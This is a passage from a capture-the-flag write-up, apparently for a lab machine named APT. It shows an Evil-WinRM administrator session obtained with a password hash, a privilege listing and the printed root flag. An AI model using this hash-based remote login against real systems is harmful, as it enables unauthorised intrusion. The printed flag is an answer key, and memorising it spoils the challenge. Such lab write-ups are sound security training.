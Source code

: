 ```text
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> $env:username;$env:computername
Administrator
APT
```
I was able to log in as `Administrator`!

![Make sure to use -H for hash, and not -p for password!](/assets/markups/apt-secretsdump.svg)
### Root.txt

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> cd ../Desktop
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/1/2021   9:35 AM             34 root.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> cat root.txt
366c36e30001577410f0a8c5c89dbd15
```
